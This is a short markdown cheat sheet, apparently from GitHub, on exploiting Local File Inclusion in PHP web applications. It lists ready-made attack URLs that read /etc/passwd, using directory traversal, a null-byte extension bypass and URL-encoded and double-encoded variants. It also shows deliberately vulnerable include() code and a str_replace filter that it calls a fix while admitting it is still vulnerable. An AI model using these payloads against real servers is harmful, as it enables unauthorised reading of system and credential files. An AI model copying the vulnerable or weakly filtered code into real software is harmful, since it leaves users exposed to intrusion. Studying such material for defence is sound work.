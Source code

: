 # Local File Inclusion/lfi
## @Author : M3tr1c_r00t
<li>
  <ul>An lfi is a web vulnerability which allows one to be able to view the servers files or even include other files within the root folder of the web server.
  </ul>
  <ul>An lfi can lead to information disclosure, cross-site scripting(XSS) and even rce(remote code execution).
  </ul>
  <ul>
  An lfi can occur when a server has been poorly configured or no proper sanitization practices are being observed.
  </ul>
  <ul>
  Lfi's usually occur when an application uses a path to a file as input.
  </ul>
  <ul>
  The server treats the input as trusted and is then executed.
  </ul>
  <ul>
  Other lfi's gives attackers the abilities to upload files into the server.
  </ul>
</li>

For example;
```
https://example-site.com/?module=contact.php
```
As an attacker, we can change the module part, as it being used as a path to the contact.php and try to view the internal files...

```
https://example-site.com/?module=/etc/passwd
```
### LFI Attacks

#### We can test for lfi vulnerable code by using "../" a couple of times
```
https://example-site.com/?module=../../../../etc/passwd
```
The code example for this can be
```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>  

#or

<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>
```
##### This vuln can be fixed with the below code tho its still vulnerable...

```
<?php

if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}

?>
    
```

#### bypass of: $_GET['param']."php"
In some servers, they add a definite file extension to prevent exploitation....
<br>
We can exploit this by adding a null byte in url encoding:
<br>
This only applies to php version 5.3.4 and below...
```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
```
<br>

#### In other cases, we can use url encoding...
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```
<br>
If that doesn't work, try double url encoding...
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
